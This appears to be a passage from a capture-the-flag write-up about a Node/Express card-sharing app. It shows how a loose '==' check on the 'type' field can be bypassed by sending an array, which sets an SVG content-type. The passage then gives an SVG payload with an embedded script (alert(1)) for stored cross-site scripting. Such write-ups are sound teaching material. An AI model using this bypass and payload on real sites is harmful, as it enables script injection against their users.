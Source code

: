 The first idea could be simply to create a card by putting some javascript code as custom text and submit the link to the admin. There's a problem: the response `content-type` header will be set to `text/plain`. Instead, if we set `svg` other than `text`, our custom text won't be considered at all.

```javascript
app.post("/card", (req, res) => {
    let { svg, content } = req.body;

    let type = "text/plain";
    let id = v4();

    if (svg === "text") {
        type = "text/plain";
        cards[id] = { type, content }
    } else {
        type = "image/svg+xml";
        cards[id] = { type, content: IMAGES[svg] }
    }

    res.redirect("/card?id=" + id);
});
```

Looking into card edit method, we can see a poorly constructed equality check: `type == "image/svg+xml"`.

```javascript
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
});
```

Knowing that `type` attribute is used to set the `content-type` header and that
JS is a beautiful language

```javascript
'test' == ['test']  //true
'test' === ['test'] //false
```

we could try to create a new card and edit it by setting `type` to

```plaintext
['image/svg+xml']
```

and `content` to

```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
        alert(1);
   </script>
</svg>
```
